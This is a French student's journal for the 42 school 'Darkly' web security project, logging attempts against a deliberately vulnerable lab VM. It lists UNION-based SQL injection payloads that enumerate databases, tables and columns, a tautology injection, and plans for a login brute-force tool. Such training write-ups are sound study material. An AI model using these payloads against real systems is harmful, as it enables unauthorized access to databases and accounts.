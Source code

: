 # darkly
projet de web secu de 42


les faille que je prevois de croiser :
- injection sql sur une recherche 
- injection sql sur login
- injeciton de donner sur l upload dimage
- injection js
- injection php (j ai croiser ca sur internet mais je ne suis pas sur de ocomment ca marche)
- manipulation de cookie

# 29novembre :
je comprend comment lancer la machine grace a ce lien que de sympathique gens m on donner sur discord 
https://github.com/AdonisEnProvence/Darkly#setup
je me rend compte que les recherche de photos et d user renvois des erreurs sql 
il y a probablement moyen d y injecter des choses
je testes des trucs

# 30 novembre : 
je test plein de solution dinjeciton sql et une trouver sur se stie touche enfin 
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
 ## 0 UNION ALL SELECT NULL,version()-- 
c est top ca renvoi la version qui est : 5.5.64-MariaDB-1ubuntu0.14.04.1
 ## 0 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
me donne les nom de database suivant :
- information_schema
- Member_Brute_Force
- Member_Sql_Injection
- Member_guestbook
- Member_images
- Member_survey

0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM images.TABLES --

je ne comprend pas les member machin ils ne retourne rien
## 0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES --
je recupere plein de truc mais je ne sait pas quoi en faire

USER_STATISTICS

 0 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='USER_STATISTICS'--

## 0 UNION ALL SELECT NULL,concat(column_name) FROM guestbook.COLUMNS --
me donne toute les columns existante
visiblement http://192.168.56.101/index.php?page=member
et http://192.168.56.101/index.php?page=searchimg
n on pas le meme fonctionnement

# 1 decembre:

## 0 or 1 = 1;

me retourn des infos bien plus interessante dans le user .

je supose que la query sur le serveur ressemble a 

### SELECT * FROM user WHERE user_id = (what i typing);


en parallel j ai tester un outil qui etais sencer brut force les mdp mais il me dit que tout les mot de passe de ca liste sont bon .... 


je pensse que j ai foirer un truc donc je vais fair mon propre outil </br>
il me suiffit de remplacer </br>
http://192.168.56.101/?page=signin&username=d&password=d&Login=Login# </br>
par les username et password de mon choix (je crois je ne comprend pas l interet de Login) </br>
j ai essayer de le mettre a true mais rien ne se passe </br>
